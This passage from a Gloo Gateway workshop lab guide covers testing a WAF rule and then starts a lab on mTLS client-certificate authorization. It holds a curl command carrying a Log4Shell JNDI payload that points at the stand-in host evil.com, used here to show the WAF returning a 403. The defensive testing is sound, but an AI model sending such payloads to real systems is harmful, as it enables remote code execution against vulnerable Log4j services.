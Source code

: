 As you can see, this `RouteOption` targets the parent `HTTPRoute`. That way, the WAF rule is applied to all the traffic targetting the `httpbin` application.



Run the following command to simulate an attack:

```bash
curl -H "User-Agent: \${jndi:ldap://evil.com/x}" -k "https://httpbin.example.com/get" -i
```

The request should be rejected:

```http,nocopy
HTTP/2 403 
content-length: 27
content-type: text/plain
date: Tue, 05 Apr 2022 10:20:06 GMT
server: istio-envoy

Log4Shell malicious payload
```

Let's delete the `RouteOption` we've created:

```bash
kubectl delete --context ${CLUSTER1} -n gloo-system routeoption waf
```




## Lab 14 - Validate and authorize client certificates <a name="lab-14---validate-and-authorize-client-certificates-"></a>

In this step, we're going to secure the access to the httpbin service using mutual TLS (mTLS), and apply further authorization based on information in the client certificate.

First, we need to make sure we have certificates for both the server (which is our `Gateway` in this case) and the client.
We already have the serving certificate that we created when exposing the httpbin application using HTTPS, so next we need to create the certificate that our clients will use to access the httpbin application.

Create a new certificate authority (CA) that will sign keys for our clients and be trusted by the gateway:

```bash
openssl req -x509 \
  -nodes \
  -days 365 \
  -newkey rsa:4096 \
  -keyout client-ca.key \
  -out client-ca.crt \
  -sha512 \
  -subj "/CN=clientca"
```
